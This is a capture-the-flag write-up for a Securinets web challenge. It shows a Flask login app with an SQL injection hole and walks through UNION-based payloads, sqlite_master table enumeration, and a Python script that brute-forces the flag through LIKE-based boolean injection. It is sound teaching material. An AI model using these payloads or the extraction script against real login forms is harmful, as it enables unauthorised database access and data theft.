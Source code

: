 <h1>  7Billions and you have 0 chance  </h1>

<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/image3.PNG>

Enumerating through the website i found ```robots.txt```
And got this code:

```py
from flask import request, send_from_directory, render_template, send_file, Flask
import sqlite3

app = Flask(__name__)

app.static_folder="public"


def getUser(username, pwd):
    connection_obj = sqlite3.connect("database.db")
    cursor_obj = connection_obj.cursor()
    cursor_obj.execute(
        f"SELECT * FROM users WHERE username = '{username}' AND password = '{pwd}'"
    )

    result = cursor_obj.fetchone()
    print(result)
    if result:
        return True
    else:
        return False


@app.route("/", methods=["GET"])
def home():
    return render_template("index.html")


@app.route("/robots.txt", methods=["GET"])
def static_from_root():
    return send_from_directory(app.static_folder, request.path[1:])


@app.route("/source", methods=["GET"])
def get_source():
    return send_file(__file__)


@app.route("/admin", methods=["POST"])
def admin():
    username = request.form.get("username")
    password = request.form.get("password")

    if username and password and getUser(username, password):
        return render_template("auth.html")
    else:
        return render_template("404.html"), 404


@app.errorhandler(404)
def page_not_found(e):
    return render_template("404.html"), 404


app.run(host="0.0.0.0", port=8000)
```

It was obvious that it was SQLite injection, but to be sure, let's detect the injection point:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture2.PNG>
after we put ```'``` we got this Error:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture3.PNG>



Next, we need to find the number of columns using this payload:
```admin'UNION+SELECT+NULL,NULL,NULL--```
I found that there were only 3 columns through enumeration.
and when I got that the database has 3 columns, a new response got to us:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture4.PNG>
```which is the valid one :)```

<b>Here is the final take "there are 7 billions people and I have 0 chance,read it from the end"</b>

From that, we knew that it was boolean-based sqlite injection, so let's get to work:


first we need to find the name of the table using this query:
```<b>username=admin'UNION+SELECT+tbl_name,NULL,NULL+FROM+sqlite_master+WHERE+tbl_name+NOT+LIKE+'sqlite_%'+AND+tbl_name+LIKE+'fla%'+--&password=asd</b>```

throught enumerating the ```LIKE``` value we found that the table name is ```flag```.

after that we need to find the column name!
i honestly guessed that the coloumn name was ```flag``` i think thats has to do.
i used this query to guess it:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag--```
and got a valid response:
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture5.PNG>


finally we have to exract the flag using this query:
```admin'UNION+SELECT+flag,NULL,NULL+FROM+flag+WHERE+flag+LIKE+'securinets{%'--```
<img src=https://github.com/Qusaihija/securinets-valentine-2024/blob/main/images/Capture6.PNG>

we have to keep enumerating the ```LIKE``` value until we get our full flag.
so i wrote this script to do the work

```py
from requests import *
from string import *
url = "http://51.12.211.165:8200/admin"
ans=""

pr="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ!_{}"
for i in pr:
    data = {
    "username": "admin' UNION SELECT 0x660x6c0x610x67,NULL,NULL FROM flag WHERE flag LIKE 'securinets{luCK_"+(ans+i)+"%'--",
    "password": "asd"}

    p=post(url,data=data)
    if p.status_code==200:
        ans+=i
        print(ans)
```

running the script we got the flag: ```securinets{Luck_15_n00b5_b3l13f5}```

